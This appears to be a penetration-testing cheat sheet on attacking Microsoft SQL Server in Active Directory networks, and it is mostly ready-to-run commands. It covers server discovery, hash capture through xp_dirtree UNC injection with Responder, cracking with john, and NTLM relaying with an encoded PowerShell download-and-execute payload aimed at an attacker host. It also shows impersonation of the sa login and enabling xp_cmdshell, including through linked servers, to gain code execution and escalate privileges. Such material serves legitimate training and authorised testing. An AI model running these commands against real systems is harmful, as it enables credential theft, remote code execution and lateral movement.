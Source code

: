 **MSSQL Enumeration:**

In order to locate instances of MSSQL servers, we can run a network scan(port 1433/TCP) or if we are in an active directory enviromet we can query our domain DC for MSSQL SPNs. To do so, we can use the native "setspn" tool, or with [GetUsersSPNs.ps1]( https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1).

```
1. C:\> setspn -T corp1 -Q MSSQLSvc/*

2. PS C:\> .\GetUsersSPNs.ps1 
```

To know which user we used to log in, we can use this MSSQL query:

```
SELECT SYSTEM_USER;   -> if we logged in as "sa", this will return "sa"
```

To check our current user role we can use this MSSQL query:

```
SELECT IS_SRVROLEMEMBER('public');

SELECT IS_SRVROLEMEMBER('sysadmin');
```
(The "sysadmin" role is the MSSQL role with maximum privileges).

**CONNECTION AND AUTHENTICATION TO THE SERVER:**

Authentication to an MSSQL server, occurs in 2 stages:
  1. A login is requried. This login can be through Kerberos, or via an SQL server login which is performed with local accounts on each SQL     server.
  2. After a successfull login, the login is mapped to a database user account.

An example of this is that we may perform a SQL server login with the "sa" account, which is mapped to the "dbo" user account. However, if we perform a login with an account that doesn't has an SQL user account mapped, it will get mapped as the "guest" user. 

Generally the easiest ones to use are impacket-mssqlclient(to connect from linux) and the sqlcmd utility(to connect from windows). When using impacket-mssqlclient with active directory domain authentication don't forget the "-windows-auth" flag!

```
1. impacket-mssqlclient DOMAIN/username:password@<target-ip> -windows-auth   -> use the -windows-auth flag only if you are using a Kerberos login

~# impacket-mssqlclient -dc-ip 192.168.1.1 contoso.com/svc_sql:"SqlTest123!"@192.168.1.2 -windows-auth -> the password is only SqlTest123!, this is an example of kerberos login

~# ~# impacket-mssqlclient svc_sql:"SqlTest123!"@192.168.1.2 -> SQL server login

2. C:\> sqlcmd -S <computer_name> -U <username> -P <password>

C:\> sqlcmd -S appsrv01.contoso.com -U 'svc_sql' -P 'SqlTest123!' -> SQL server login

C:\> sqlcmd -S 192.168.1.2 -U 'svc_sql' -P 'SqlTest123!' -> SQL server login

C:\> sqlcmd -E appsrv01.contoso.com -> Kerberos login
```

IMPORTANT: Mainly all commands specified in this document are meant to be thrown through an impacket-mssqlclient or sqlcmd shell.

**UNC PATH Injection and Hash Relaying:**

Remember that you cannot relay a hash to the origin computer, or to a computer that has the SMB signing enabled(which DC have by default).

Additionally, you can opt to only capture the hash and try to "break" it:

```
1st ~# responder -I tun0  -> Capturing the hash with responder, use the -I parameter to indicate your network interface

Then save the hash to a file(like "hash.txt" in this example).

2nd ~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Throw this command and verify that the authentication with you SMB server was successful:

```
xp_dirtree \\192.168.1.1\test\;
```
You can easily create your SMB server with impacket:

```
~# impacket-smbserver test $(pwd) -smb2support
```
To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:

```
~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```

**PRIVILEGE ESCALATION:**

Impersonation can be performed in two ways, first it can be done at a login level using the "EXECUTE AS LOGIN" statement, or it can be done at a user level with the "EXECUTE AS USER" statement.

*Impersonation at a login level:*

Enumerating users that can be impersonated at a login level. It is important to note that this query won't return us the user that is allowed to impersonate.

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```
To impersonate(assuming you can impersonate the sa user):

```
EXECUTE AS LOGIN = sa;
```

*Impersonation at a user level:*


**CODE EXECUTION(through xp_cmdshell):**

Use this commands at this order:

```
1st EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

2nd EXEC xp_cmdshell "whoami";
```

**CODE EXECUTION ON A LINKED MSSQL SERVER:**

To list linked SQL servers(2 ways):

```
exec sp_linkedservers;

SELECT * FROM sys.servers;
```
For this example, assume that dc01 is the linked server. 

```
1st EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01

2nd EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01

3rd EXEC (xp_cmdshell 'whoami';) AT dc01
```

**PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**

Supose that we have low privileges on our current MSSQL server, however there is a linked MSSQL server where we do have high privileges. So how do we do to gain high privileges on our first MSSQL server?
(For demonstration purposes we have low privileges on dc01 but high privileges on appsrv01)

Here are the commands we must throw through dc01:

```
1st EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01

2nd EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01

3rd EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01
```

